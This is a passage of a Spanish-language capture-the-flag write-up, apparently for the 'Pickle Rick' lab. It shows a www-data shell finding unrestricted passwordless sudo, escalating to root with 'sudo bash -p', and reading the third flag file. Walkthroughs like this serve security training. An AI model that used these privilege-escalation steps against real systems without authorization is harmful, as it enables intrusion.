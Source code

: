 Ahora debemos encontrar el tercer ingrediente, por lo tanto, vamos a enumerar un poco el sistema:

```bash
www-data@ip-10-10-59-35:/home/rick$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ip-10-10-59-35:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-59-35.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-59-35.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-59-35:/home/rick$ 
```

Vemos que podemos ejecutar cualquier comando como el usuario **root**, por lo tanto, nos lanzamos una bash:

```bash
www-data@ip-10-10-59-35:/home/rick$ sudo bash -p
root@ip-10-10-59-35:/home/rick# whoami
root
root@ip-10-10-59-35:/home/rick# 
```

Si ingresamos al directorio de **root** ya podemos visualizar el tercer ingrediente:

```bash
root@ip-10-10-59-35:/home/rick# cd /root/
root@ip-10-10-59-35:~# ll
total 28
drwx------  4 root root 4096 Feb 10  2019 ./
drwxr-xr-x 23 root root 4096 Jun 18 02:37 ../
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh/
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap/
root@ip-10-10-59-35:~# cat 3rd.txt 
3rd ingredients: fleeb juice
root@ip-10-10-59-35:~# 
```
